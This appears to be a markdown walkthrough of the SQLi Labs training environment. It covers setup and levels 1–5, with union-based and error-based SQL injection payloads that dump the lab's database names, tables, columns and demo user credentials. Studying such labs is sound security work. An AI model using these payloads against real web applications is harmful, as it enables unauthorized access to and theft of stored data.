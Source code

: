 # ***SQLi Labs***

First we have to set up sqli labs,For that we can use the following commands

install apache2 webserver by > ````sudo apt install apache2````

install mysql by > ````sudo apt-get install mysql-srver````

install php7

git clone the repository of the lab and start all the services.

## ***LESS1***

The website says,Please input the ID as parameter with numeric value.
So we can input ```?id=1 or 2,3,4,5.....```
when we put ```'``` we get sql error 
thus we have a sql injection
we can comment the rest of the query by ```-- -``` or other comments in sql language.
We can dump contents

 ## ***payloads to dump***
 
We can get version of the server by using ```/?id=-1' union select 1,version(),3--+```
We can get databasename of the server by using ```/?id=-1' union select 1,database(),3--+  databasename = security```
Going to the terminal and going to mysql. If we type ``show databases;`` it shows databases
Then We can see security which is our database name. We can find more details ``use security`` with this sql command go into the database.
Using ``show tables;`` we can see the tables. For looking into the tables ``desc emails;`` and so on...
 
## ***LESS2***
The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- -``` doesn't work.
So we put ``'`` before the 1 and change it as ```?id='1'``` as payload.
Now we can comment it ```?id='1' -- - ```
Now we can dump contents using the payloads.

## ***payloads to dump***

To find column_name ```?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'-- -```
We have more payloads that can we do and get contents of database

## ***LESS3***

The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- - nor ?id='1'-- -``` doesn't work.
So we put ``)`` before the ``'`` and change it as ```?id=1)'``` as payload.
No we can comment it ```?id=1)'-- -```
Now we can dump contents using payloads

## ***payloads to dump***
to find data ```/?id=-1') union select 1,group_concat(username),3 from users-- -```
We have more payloads that can we do and get contents of database

## ***LESS4***

The website says,Please input the ID as parameter with numeric value.
We have to use ``') '`` as payload 
Now can comment it using ```?id=1' ")-- -```
Now we can dump contents using payloads

## ***payloads to dump ***

```?id=-1' ") union select 1,group_concat(username),group_concat(password) from users-- -```
We have more payloads that can we do and get contents of database.

## ***LESS5***

In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use ``rand(),floor(),count()`` to get error

## ***payloads to dump***

This will get database ```/?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

to get table names ```/?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

to get columns ```/?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

# ***contents of database***

1.databasename = security

2.tables = emails,referers,uagents,users

3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username

4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4

